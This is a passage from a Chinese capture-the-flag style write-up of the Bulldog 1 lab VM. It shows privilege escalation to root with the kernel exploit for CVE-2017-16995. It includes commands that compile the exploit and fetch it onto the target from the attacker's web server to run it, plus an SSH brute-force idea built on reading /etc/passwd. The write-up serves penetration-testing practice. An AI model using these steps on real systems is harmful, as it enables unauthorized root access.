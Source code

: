 但是这里提示我们必须在 `终端` 中使用 `sudo` 命令，这里我们创建一个伪终端。

```sh
python -c "import pty;pty.spawn('/bin/bash')"
```

创建好后，在执行 `sudo` 的时候，居然提示我们需要密码，这条路基本是行不通了。

没办法，只有先查看一下 `内核` 等信息了。

```sh
uname -a
Linux bulldog 4.4.0-87-generic #110-Ubuntu SMP Tue Jul 18 12:55:35 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
```

这里的内核版本是 `4.4.0-87` 刚好在这个内核存在一个提权漏洞：[CVE-2017-16995](<https://www.exploit-db.com/exploits/44298>) 。

由于靶机上面不存在 `gcc` 所以我们现在本机上编译好，然后通过 `web` 服务器传输过去。

下载以及编译（攻击机）：

```sh
wget https://www.exploit-db.com/download/44298
mv 44298 44298.c
gcc --static 44298.c -o 44298
```

这里我在我的攻击机上面已经搭建好了 web 服务器，所以我可以直接再靶机上下载并执行。

靶机：

```sh
wget https://192.168.248.164/44298
chmod 777 44298
./44298
```

![Bulldog_1_10](/image/2019-05-05-Bulldog1_writeup/Bulldog_1_10.png)

最后我们成功得到 `root shell`。



## 0x42 第二种思路

第二种思路其实没什么可说的，当反弹 `shell` 不成功的时候可以碰碰运气。

1. 首先通过检查 `/etc/passwd` 和 `/etc/ssh/sshd_config`，得到可登陆的账户。
2. 通过爆破得到 `shell` 。
